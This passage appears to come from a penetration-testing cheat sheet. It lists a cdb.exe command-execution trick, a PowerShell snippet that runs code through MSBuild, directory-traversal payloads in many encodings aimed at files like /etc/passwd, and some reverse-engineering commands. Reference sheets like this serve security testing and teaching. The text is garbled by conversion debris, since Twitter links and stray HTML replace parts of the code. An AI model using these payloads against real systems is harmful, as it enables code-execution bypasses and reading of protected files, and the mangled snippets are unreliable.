 ```
cdb.exe -cf **&lt;wds\_file&gt;** -o **&lt;command&gt;**
```

<span id="anchor-351"></span>Run Commands with MSBuild Using PowerShell

```
[Reflection.Assembly]::LoadWithPartialName('<a href="https://t.co/2nLz1YPu43">http://Microsoft.Build </a>');
<a href="https://twitter.com/search?q=%24e&amp;src=ctag">$e</a>=new-object<a href="https://t.co/2nLz1YPu43"> http://Microsoft.Build </a>.Evaluation.Project('<strong>&lt;csproj_file&gt;</strong>');
<a href="https://twitter.com/search?q=%24e&amp;src=ctag">$e</a>.Build();</td>
```

<span id="anchor-352"></span>Directory Traversals

```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%255c..%255c
/%252e%252e/
%255c%255c..%255c
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
..%c0%af represents ../
..%c1%9c represents ..\
Prepend "/public/" to all aof the above.
Try absolute paths (with encoding?):
/file://absolute/path/&lt;traversal&gt;/etc/passwd</p></td>
```

<span id="anchor-353"></span>Reverse Engineering Commands

<span id="anchor-354"></span>Strings

<span id="anchor-355"></span>List Strings From File

```
strings **&lt;ELF File&gt;**
```

<span id="anchor-356"></span>Objcopy

<span id="anchor-357"></span>Copy/Rip Debugging Symbols From a Binary

```
objcopy --only-keep-debug rip\_from\_binary **&lt;ELF Binary w/Debugging Symbols&gt;**
```

<span id="anchor-358"></span>Add Debugging Symbols to a Binary

```
objcopy --add-gnu-debuglink=**&lt;symbol file&gt; &lt;ELF Binary&gt;**
```
